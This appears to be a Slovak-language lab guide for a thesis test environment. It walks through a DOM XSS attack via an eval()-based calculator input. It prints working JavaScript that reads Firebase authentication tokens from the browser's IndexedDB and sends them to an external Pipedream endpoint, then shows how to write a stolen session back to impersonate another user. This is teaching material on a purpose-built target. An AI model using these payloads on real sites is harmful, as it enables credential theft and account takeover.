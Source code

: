 # Document object model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Pri útoku využijeme zraniteľnú funkciu eval(), ktorá vyhodnotí vloženú hodnotu v akomkoľvek tvare.
- Každopádne tým, že vyhodnotí akúkoľvek hodnotu, vyhodnotí aj škodlivý kód, ktorý ako argument vložíme.
- Vstup s textom "Enter equation..." vyhodnocuje práve funkcia eval() a predpokladáme, že na tomto mieste vzniká zraniteľnosť.
- Pokúsime sa o ukradnutie puživateľoských dát z databázy prehliadača. Do vstupu vložíme nasledujovný kód:
    
          const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const getDataRequest = objectStore.getAll();

              getDataRequest.onsuccess = (event) => {

              const headers = new Headers();
              headers.append("Content-Type", "text/plain");

              const options = {
                method: "POST",
                headers,
                mode: "cors",
                body: JSON.stringify(event.target.result),
              };

              // Doplnit endpoint vygenerovany sluzbou Pipedream
              fetch("pipedream-endpoint", options); 
              }
            };
- Tento kód sprístupní lokálnu databázu (indexDB) prehliadača a umožní nám vytiahnúť hodnoty z databázy. Nás momentálne zaujíma tabuľka "firebaseLocalStorage", ktorú nastavuje
  externá API Firebase, ktorú používa aplikácia na autentifikáciu. Po jej vytiahnutí sa celý objekt odošle na náš vytvorený endpoint v službe Pipedreame.
- V kóde sa nachádza komentár nad funkciou fetch(). Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvoríme
  nový projekt. Po vytvorení projketu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do nášho kódu.
- Kód vložíme do vstupného poľa a stalčíme "Enter".
- Teraz sa môžeme odhlásiť a prihlásiť sa do lubovoľného účtu, ktorý už máme vytvorený alebo si vytvoríme nový.
- Prejdeme znova na obrazovku s kalkulačkou a vložíme nasledujúci kód do rovnakého vstupu.
        const request = window.indexedDB.open("firebaseLocalStorageDb");
        request.onsuccess = (event) => {
          const db = event.target.result;
  
          const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
          const objectStore = transaction.objectStore("firebaseLocalStorage");
  
          const data = {
          fbase_key: "random-fbase-key",
          value: {
            uid: "RTejhfCWw1OAlHcoAj41Fy93ZJJ3",
            email: "test@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "test@gmail.com",
                displayName: null,
                email: "test@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken: "random-refresh-token",
              accessToken: "random-access-token",
              expirationTime: 1712794096425,
            },
            createdAt: "1711383904315",
            lastLoginAt: "1711790596471",
            apiKey: "random-api-key",
            appName: "[DEFAULT]",
          },
        };
  
          objectStore.clear()
  
          const addDataRequest = objectStore.add(data);
  
          addDataRequest.onsuccess = (event) => alert("Success!");
        };
- Kód uloží, respektíve prepíše dáta o prihlásenom používateľovi. Objekt "data" v ukážke je len na demonštráciu . Nahradíme ho objektom, ktorý nám prišiel na vytvorený ednpoint.
    Objekt bude pravdepodobne treba preformátovať, takže názvy atribútov objektu musia byť bez úvodzoviek, tak ako tomu je v ukážkovom objekte.
- Po kliknuti klávesy "Enter" sme si do prehliadača uložili prihlasovacie údaje iného používateľa a teraz sme prihlásený pod jeho prihalsovacimi údajmi.
- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/dom-xss-eval.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/dom-xss-eval.mp4)